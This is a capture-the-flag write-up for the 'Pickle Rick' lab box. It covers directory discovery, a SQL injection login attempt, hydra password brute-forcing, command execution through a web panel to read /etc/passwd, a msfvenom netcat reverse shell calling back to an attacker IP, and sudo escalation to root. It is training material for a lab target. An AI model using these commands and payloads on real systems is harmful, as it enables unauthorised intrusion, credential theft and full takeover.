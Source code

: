 # Pickle Rick

## `/`

Username:

Note to self, remember username!
Username: R1ckRul3s

## `robots.txt`

password: Wubbalubbadubdub

## Tools for page discovery

gobuster,ffuz,wfuzz, feroxbuster,

## Page Discovery

./feroxbuster -u <http://10.10.80.188> --no-recursion -vv --wordlist /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt

```log
200        1l        1w       17c http://10.10.80.188/robots.txt
200       37l      110w     1062c http://10.10.80.188/index.html
302        0l        0w        0c http://10.10.80.188/denied.php
403       11l       32w      300c http://10.10.80.188/wp-forum.phps
403       11l       32w      290c http://10.10.80.188/.ht
403       11l       32w      291c http://10.10.80.188/.php
403       11l       32w      291c http://10.10.80.188/.htc
403       11l       32w      292c http://10.10.80.188/.html
200       25l       61w      882c http://10.10.80.188/login.php
403       11l       32w      291c http://10.10.80.188/.htm
403       11l       32w      295c http://10.10.80.188/.htgroup
403       11l       32w      300c http://10.10.80.188/.htaccess.bak
403       11l       32w      297c http://10.10.80.188/.htpasswds
403       11l       32w      296c http://10.10.80.188/.htpasswd
302        0l        0w        0c http://10.10.80.188/portal.php
403       11l       32w      294c http://10.10.80.188/.htuser
200       37l      110w     1062c http://10.10.80.188/
403       11l       32w      296c http://10.10.80.188/.htaccess
301        9l       28w      313c http://10.10.80.188/assets
403       11l       32w      300c http://10.10.80.188/server-status
```

## /login.php

```shell
curl 'http://10.10.80.188/login.php' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://10.10.80.188/login.php' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Connection: keep-alive' -H 'Cookie: PHPSESSID=funm129tnonpqil3s00p2rn6d0' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'username=R1ckRul3s&password=%27+OR+1%3D1--&sub=Login'
```

hydra -v -V -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt 10.10.80.188 http-post "/login.php:username=^USER^&password=^PASS^:Invalid username or password."
hydra -v -V -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt 10.10.114.54 http-post "/rest/user/login:{\"email\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:Invalid email or password."

## `/portal.php`

### first flag

since `cat` is disabled, we look at the file with with `less`
`less Sup3rS3cretPickl3Ingred.txt | grep ''`

first flag
`mr. meeseek hair`

### sudo -l

```log
Matching Defaults entries for www-data on ip-10-10-80-188.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-80-188.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

### User

`less /etc/passwd | grep ''`

```log
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
```

### Command panel

```bash
curl 'http://10.10.80.188/portal.php#' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://10.10.80.188/portal.php' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Connection: keep-alive' -H 'Cookie: PHPSESSID=funm129tnonpqil3s00p2rn6d0' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'command=ls&sub=Execute'
```

### Home directory

`cd /home && ls -la`

```bash
drwxrwxrwx  2 root   root   4096 Feb 10  2019 rick
drwxr-xr-x  4 ubuntu ubuntu 4096 Feb 10  2019 ubuntu
```

`less '/home/rick/second ingredients' | grep ''`

**result second flag**
`1 jerry tear`

### Reverse Shell + Vertical Privilege Escalation

Attacker machine:

```bash
# ip is the attacker's ip
msfvenom -p cmd/unix/reverse_netcat lhost=10.10.14.77 lport=4444 R
nc -lvp 4444
```

target machine

```bash
# run via Command Panel /portal.php
# paste msfvenom reverse-shell payload
```

Attacker machine

```bash
whoami
# > www-data
sudo bash
whoami
# > root
```

## 3rd flag

```bash
ls /
# shows 3rd.txt
cat 3rd.txt
```
